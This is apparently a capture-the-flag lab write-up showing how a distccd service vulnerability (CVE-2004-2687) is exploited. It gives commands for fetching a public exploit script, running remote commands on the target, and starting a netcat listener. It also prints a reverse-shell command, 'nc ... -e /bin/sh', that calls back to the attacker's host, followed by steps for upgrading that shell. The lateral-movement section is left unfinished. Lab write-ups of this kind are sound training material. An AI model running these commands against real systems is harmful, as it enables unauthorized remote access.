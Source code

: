 
---

# Exploitation
## distccd CVE-2004-2687
- Located an exploit written not using Metasploit that allows RCE
1. Pulled exploit from Github
```bash
wget https://gist.githubusercontent.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855/raw/261b638bb05d02b67b6ad67fa9cf3c74a73de6c6/distccd_rce_CVE-2004-2687.py && mv distccd_rce_CVE-2004-2687.py exploit.py
```
2. Turned exploit into an executable with:
```bash
chmod +x exploit.py
```
3. Ran script as a test to see if we get access:
```bash
python2 exploit.py -t 10.129.127.104 -p 3632 -c "id"
```
- Note script says it should run with Python3 but doing so kept failing for me trying Python2 worked!!
4. Started a Listener:
```bash
sudo rlwrap nc -lvnp 3333
```
5. Finally lets tell the victims machine to call back to us with a shell:
```bash
python2 exploit.py -t 10.129.127.104 -p 3632 -c "nc 10.10.14.30 3333 -e /bin/sh"
```
6. Success we have a shell now we upgrade it to make it a bit more functional:
```bash
python -c 'import pty;pty.spawn("/bin/bash")' # Run in the shell
export TERM=xterm-256color # whatever your original $TERM value is && Run in shell
ctrl + z
stty raw -echo ;fg # Run on our machine
```





---

# Lateral Movement to user
## Local Enumeration
- Found a user.txt file under 

## Lateral Movement vector


---
